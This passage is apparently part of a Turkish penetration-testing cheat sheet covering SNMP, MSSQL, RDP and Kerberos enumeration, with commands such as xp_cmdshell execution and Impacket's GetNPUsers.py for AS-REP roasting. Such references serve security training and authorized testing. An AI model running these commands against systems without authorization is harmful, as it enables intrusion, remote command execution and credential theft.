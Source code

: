 
### 2.13. SNMP Keşfi

#### `snmpwalk -v2c -c <community> <IP>`
**Amaç:** SNMP üzerinden bilgi toplamak.

```bash
snmpwalk -v2c -c <community> <IP>
```

---

### 2.14. MSSQL Keşfi

#### `sqsh -S <IP> -U <username>`
**Amaç:** MSSQL sunucusuna bağlanmak.

```bash
sqsh -S <IP> -U <username>
```

#### `xp_cmdshell`
**Amaç:** MSSQL üzerinden komut çalıştırmak.

```sql
EXEC xp_cmdshell 'whoami';
```

---

### 2.15. RDP Keşfi ve Saldırıları

#### `nmap -p 3389 --script rdp-enum-encryption <IP>`
**Amaç:** Hedefte RDP açık olup olmadığını kontrol etmek.

```bash
nmap -p 3389 --script rdp-enum-encryption <IP>
```

#### `xfreerdp`
**Amaç:** Hedef RDP sunucusuna bağlanmak.

```bash
xfreerdp /u:<username> /p:<password> /v:<IP>
```

---

### 2.16. Kerberos Keşfi ve Saldırıları

#### `python GetNPUsers.py <domain>/<username> -request`
**Amaç:** Kerberos kullanıcılarının Pre-Authentication zafiyetlerini test etmek.

```bash
python GetNPUsers.py <domain>/<username> -request
```
